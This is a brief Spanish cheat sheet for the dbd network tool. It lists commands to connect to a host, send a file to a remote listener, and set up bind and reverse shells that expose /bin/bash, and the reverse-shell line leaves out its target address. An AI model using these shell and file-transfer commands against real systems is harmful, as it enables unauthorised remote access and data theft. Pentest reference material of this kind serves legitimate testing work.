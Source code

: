 # dbd Cheat Sheet

#### Conectarnos a un puerto de un host

- `dbd <IP-ADDRESS> <PORT>`: Conexión a un host.

#### Transferir un archivo

- `dbd -lp <PORT> -k secret > output.txt`: Host a recibir el archivo en el puerto especificado.

- `cat input.txt | dbd -k secret <IP-ADDRESS> <PORT>`: Host que envia el archivo.

#### Bind Shell (Linux)

- `dbd -nvlp <PORT> -e /bin/bash`: Escuchando la conexión.

- `dbd <IP-ADDRESS> <PORT>`: Conexión a la shell.

#### Reverse Shell (Linux)

- `dbd -nvlp <PORT>`: Escuchando la conexión.

- `dbd -nv <PORT> -e /bin/bash`: Conexión al host y mandamos la shell.